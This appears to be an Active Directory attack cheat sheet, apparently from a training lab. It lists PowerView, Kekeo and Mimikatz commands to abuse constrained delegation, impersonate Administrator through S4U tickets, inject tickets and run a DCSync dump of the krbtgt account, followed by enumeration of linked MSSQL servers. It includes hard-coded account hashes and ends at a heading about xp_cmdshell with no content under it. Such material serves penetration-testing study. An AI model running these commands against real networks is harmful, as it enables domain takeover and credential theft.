 ## Constrained Delegation

### Enumerate users and computers with constrained delegation enabled

- Using PowerView_dev 
-- Get-DomainUser -TrustedToAuth
-- Get-DomainComputer -TrustedToAuth

- Using ADModule 
-- Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

#### With user account

- Requesting TGT: tgt::ask /user:webadmin.ind01 /domain:ind.ycsccorp.local /rc4:ae974876d974abd805a989ebead86846
- Requesting TGS - tgs::s4u /tgt:TGT_webadmin.ind01@IND.YCSCCORP.LOCAL_krbtgt~ind.ycsccorp.local@IND.YCSCCORP.LOCAL.kirbi /user:Administrator@ind.ycsccorp.local /service:cifs/ycsc-ind-mssql.ind.ycsccorp.LOCAL
- Injecting the ticket: Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@ind.ycsccorp.local@IND.YCSCCORP.LOCAL_cifs~ycsc-ind-mssql.ind.ycsccorp.LOCAL@IND.YCSCCORP.LOCAL.kirbi"'

#### With machine account

- Requesting TGT: tgt::ask /user:YCSC-IND-MAIL$ /domain:ind.ycsccorp.local /rc4:e94a370691087919d3a29ba807b47679
- Requesting TGS: tgs::s4u /tgt:TGT_YCSC-IND-MAIL$@IND.YCSCCORP.LOCAL_krbtgt~ind.ycsccorp.local@IND.YCSCCORP.LOCAL.kirbi /user:Administrator@ind.ycsccorp.local /service:time/ycsc-ind-dc.ind.ycsccorp.LOCAL | ldap/ycsc-ind-dc.ind.ycsccorp.LOCAL
- Injecting the ticket: Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@ind.ycsccorp.local@IND.YCSCCORP.LOCAL_ldap~ycsc-ind-dc.ind.ycsccorp.LOCAL@IND.YCSCCORP.LOCAL_ALT.kirbi"'
- DCSync Attack: Invoke-Mimikatz -Command '"lsadump::dcsync /user:ind\krbtgt"'

## Abusing SQL Trusts

### Searching Database Links

- Get-SQLServerLink -Instance ycsc-ind-mssql -Verbose
- select * from master..sysservers (from SSMS or any other similar tool)

### Enumerating Database Links Manually

- select * from openquery ("ycsc-ind-mssql",'select * from master.. sysservers')

### Enumerating Database Links

- Get-SQLServerLinkCrawl -Instance ycsc-ind-mssql -Verbose
- select * from openquery("ycsc-ind-mssql",'select * from openquery("ycsc-ind-mail","select * from master..sysservers")')

### Executing command (needs xp_cmdshell to be enabled and user with EXECUTE privileges)
